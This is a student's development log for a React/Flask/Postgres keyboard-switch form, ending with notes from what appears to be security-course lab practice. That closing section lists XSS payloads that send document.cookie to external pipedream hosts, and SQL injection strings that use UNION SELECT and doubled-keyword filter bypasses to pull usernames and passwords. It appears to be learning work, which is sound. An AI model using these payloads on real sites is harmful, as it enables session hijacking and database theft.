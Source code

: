 # Progress made so far

20/02 5:30am - 10am

- Set up react project
- Created general file structure of the frontend 
  - Components/img/style/views
- Created dropdown menu component for selecting switch part (`Input.js`)
- Added images for each switch part
- FrankenForm.js created which uses the Input component to create each of the input forms for top housing/stem/spring/bottom housing
- Added Alert component that will allow any error messages to be displayed nicely
- Added styling (FrankenForm.css/Input.css) to add margins and make the text easier to read

- Decided on Dark grey text on white backgrounds for the general colour scheme
  - `rgb(52, 52, 52);`
  - default white for background



20/02 10:30am-1pm

- Added feedback messages for switch parts that haven't been selected
  - React-bootstrap typeahead has some UX issues with the search/dropdown menu in that you could type the full option but you can't tell if it's been selected or not
  - Used the Feedback component to alleviate some of this issue
  - Problem: feedback message is unstyled - text is huge

![image-20210220130318894](Progress made so far.assets/image-20210220130318894.png)

20/02 3:30pm - 6:30pm

- Added github repo https://github.com/Toshi-Tabata/FrankenswitchForm
- Broke down requirements further, still need to break each down
- Updated weekly breakdown

- Created python files for backend
- Attempted to create a database using `psycopg2` and postgres
- Learning about how to format the data (taking ages holy moly)
  - Thinking table for each switch part, with a table for the relations (invalid combinations) 
  - Invalid combinations table has 2 switch parts that make up an invalid combination
  - Switch parts can either be 
    - Top + Bottom
    - Stem + Top
    - Stem + Bottom
    - Bottom + stem is the same - how do i handle that?



21/02 2pm-5pm

- Created tables for 
  - top, bottom, stem, blacklisted combinations, manufacturers
- figured out how to connect between psycopg2's copy of the database and accessing it in `psql` directly
- Figured out a layout for the tables. For top/stem/bottom (edited 8:17pm to add manufacturer and variety columns):

| Name        | Manufacturer |
| ----------- | ------------ |
| "cherry mx" | "cherry"     |

- Blacklist contains at least two of top/bottom/stem, enforced by the constraints added

- Manufacturer for top/stem/bottom must be from the manufacturer table's name column



21/02 7pm - 12:30pm

- Setup credentials for google sheets' API
- Accessed switch database and parsed it for data
- Figured out how to get specific columns from the sheet, and created a module for getting this data
- Used the parsed data from the sheet to populate the tables
- Had to add the "manufacturer" and "variety" tables since the table was formatted in a way that wasn't giving enough clarification on what the "name" of the switch actually was

- Battled a ton of issues with string formatting and preventing SQL injections
  - turns out string formatting with constant strings is different from using a variable inside of a string format. You should pass in variables into `cursor.execute()` as a tuple in the second argument instead of using `psycopg2`'s string formats. 

- Due to the way switches get named, decided to just concatenate name and variety instead and get rid of the variety table

- Finally populated the switch table somewhat nicely. Most switches are present. there's some inconsistent formatting in the spreadsheet that is getting sorted so those switches are missing (e.g. razer switches don't have names)



22/02 6:30pm-11:30pm

- Fixed relative imports to be absolute so they work everywhere (including opening files)
- Got switches from the switch database spreadsheet, created a database and populated it
- Populated the blacklist database by manually blacklisting certain know incompatibilities between manufacturers
- Created flask server that can interact with frontend - two endpoints, one for getting list of switches and one for submitting switches
- Submitted switches get checked against the blacklist database for any incompatibilities, but is currently broken because I concatenated the manufacturer with the switchname and can't undo it. oversight which can easily be fixed
- Submitted switches get put into a test spreadsheet
- Frontend altered to reduce number of api calls required but still some stuff with input component being very repetitive. will create function to reduce it eventually



![image-20210222225224206](Progress made so far.assets/image-20210222225224206.png)


1/03/ 1pm - 3pm
- Prevented duplicate submission with error message
- prevented submission of invalid combinations with error message
- added database to backend for frankenswitches
- refactored backend's postgres database creation into its own modules
- refactored cursor so that it is passed around instead of being a global variable
    - might be a problem since connection never gets closed





15/03 10am - 11:20am

- Mostly rereading everything and catching up on what to do again
- Created basic success page
- Removed a lot of unused/testing code
- Created unique URLs for submission, login and success screen
- Next: need to create a login screen and test if I'm vulnerable to SQLi and xss attacks





15/03 11:30am - 2:50pm

- Reading about what causes XSS vulnerabilities and practiced it
  - https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
  - will be helpful
- Reading about sqli and practiced it
  - I made hella sure that all my queries were properly passed in which is good
- TODO: write up a report on every point of failure I find, and whether it is protected
  - SQLI
    - Every SQL statement needs to be parsed properly
  - XSS
    - Every user input must be protected
    - URL must be protected
      - I don't pass any information into the URL currently, so it should be fine
    - 



















`http://xss2.comp6841.xyz/search?q=<script>document.location="https://enk9enz11xjtd.x.pipedream.net/?q="+document.cookie</script>test`

`<script>document.location="https://enk9enz11xjtd.x.pipedream.net/?q="+document.cookie</script>test`



`<img src="hello" onerror="document.location='https://enk9enz11xjtd.x.pipedream.net/?q='+document.cookie">`

```html
http://xss4.comp6841.xyz/search?q=<body+onload%3D"document.location%3D%27https%3A%2F%2Fen0qx44nddqfsa.x.pipedream.net%3Fq%3D%27%2Bdocument.cookie">+what+<%2Fbody>
```

<body onload="document.location='https://en0qx44nddqfsa.x.pipedream.net?q='+document.cookie"> what </body>



![image-20210315123330789](Progress made so far.assets/image-20210315123330789.png)





http://xss4.comp6841.xyz/search?q={<script>https://en0qx44nddqfsa.x.pipedream.net?q="+document.cookie</script>}





 ' OR '1'='1'; -- assd



 ' OR '1'='1' union select * from secret; -- assd







' UNIUNIONON SELSELECTECT username, password, 'filler' FRFROMOM information_schema.tables; -- asdfsdfsdf





 ' OR '1'='2' UNIOUNIONN SELESELECTCT * FROFROMM  information_schema.tables;  -- assd



  ' UNIUNIONON SELSELECTECT username, password, 'filler' FRFROMOM users; -- asdfsdfsdf